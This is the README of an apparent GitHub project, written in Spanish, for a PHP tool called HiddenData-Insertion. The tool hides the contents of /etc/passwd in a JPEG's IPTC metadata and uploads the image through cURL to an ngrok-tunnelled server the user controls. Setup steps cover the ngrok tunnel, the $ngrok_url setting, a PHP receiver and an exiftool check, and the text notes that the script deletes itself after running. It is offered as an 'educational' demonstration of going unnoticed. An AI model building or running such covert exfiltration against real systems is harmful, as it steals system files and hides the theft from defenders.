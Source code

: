 HiddenData-Insertion es una herramienta que permite ocultar información sensible dentro de los metadatos IPTC de una imagen JPG y luego enviarla a un servidor remoto. Este script PHP es útil para demostrar cómo se puede ocultar información dentro de las imágenes de forma no visible y pasar potencialmente desapercibido.

## Características

- Ocultar información sensible dentro de los metadatos IPTC de una imagen JPEG.
- Enviar la imagen con los datos ocultos a un servidor remoto utilizando cURL.
- Utilizar la función `iptcembed` de PHP para incrustar datos en la imagen.

## Requisitos

- PHP 5.6 o superior
- Extensiones PHP `gd` y `curl` habilitadas

## Uso

1. **Configurar el servidor Ngrok:**
   - Descarga e instala Ngrok desde [aquí](https://ngrok.com/).
   - Inicia Ngrok para crear un túnel público a tu servidor local:
     ```
     ngrok http 80
     ```
   - Copie la URL pública proporcionada por Ngrok.

2. **Configurar el script PHP**
   - Abra el archivo `HiddenData-Insertion.php` en un editor de texto.
   - Sustituye la variable `$ngrok_url` por la URL pública de tu servidor Ngrok.
     ```php
     $ngrok_url = 'https://<YOUR_NGROK_URL>.ngrok-free.app/upload.php';
     ```

3. **Ejecutar script PHP:**
   - Ejecutar el servidor PHP desde la misma ubicación donde se encuentra el archivo, `upload.php`.
     ```sh
     php -S 0.0.0.0:80
     ```

4. **Ejecute el script PHP HiddenData-Insertion.php:**
   - Subiéndolo a una web: Cargue el archivo HiddenData-Insertion.php en un servidor web y luego acceda a él a través de un navegador web. Por ejemplo, si el archivo se encuentra en http://tu-servidor.com/HiddenData-Insertion.php, puede acceder escribiendo esa dirección en la barra de direcciones de su navegador.
   - A través de la línea de comandos: Ejecute el script directamente desde la terminal o símbolo del sistema. Para ello, acceda al directorio donde se encuentra el archivo HiddenData-Insertion.php y ejecute el siguiente comando:
     ```php
     php HiddenData-Insertion.php
     ```

   - El script generará una imagen aleatoria y ocultará el contenido del archivo `/etc/passwd` dentro de los metadatos IPTC de la imagen.
   - La imagen se enviará al servidor Ngrok configurado.

6. **Verificar la recepción:**
   - Asegúrese de que su servidor configurado con Ngrok está preparado para recibir y gestionar el fichero enviado.
   - Después de ejecutar el script, puede verificar el archivo de imagen resultante y ver los metadatos IPTC ocultos utilizando la herramienta exiftool. Por ejemplo:
     ```php
     exiftool passwd.jpg
     ```

Este script es sólo para fines educativos, después de ejecutar el script recuerde que se borrará automáticamente.
